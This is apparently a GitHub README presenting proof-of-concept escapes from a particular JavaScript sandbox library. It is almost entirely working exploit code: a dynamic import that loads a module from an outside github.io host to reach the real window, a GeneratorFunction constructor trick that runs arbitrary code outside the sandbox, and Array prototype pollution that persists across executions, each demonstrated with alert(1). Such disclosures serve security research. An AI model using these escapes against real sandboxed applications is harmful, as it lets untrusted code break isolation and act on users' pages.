 # Sandbox Escape PoC

Exploits for https://github.com/wesz/javascript-sandbox

## Dynamic module import
```javascript
const modulePromise = import ("https://lgfrbcsgo.github.io/sandbox-escape-poc/module.js")

modulePromise.then(module => {
  const window = module.default()
  window.alert(1)
})
```

## GeneratorFunction
```javascript
function exec(code) {
  class Class {
    * generator () {}
  }
  
  const GeneratorFunction = Class.prototype.generator.constructor

  const { value } = GeneratorFunction([], code)().next()
  return value
}

exec(`
  const frame = document.createElement("iframe")
  document.body.appendChild(frame)
  const window = frame.contentWindow.parent
  window.alert(1)
`)
```

## Overriding Array Protoype

```javascript
[].__proto__.filter = () => []
```

On the next execution this works.
```javascript
alert(1)
```

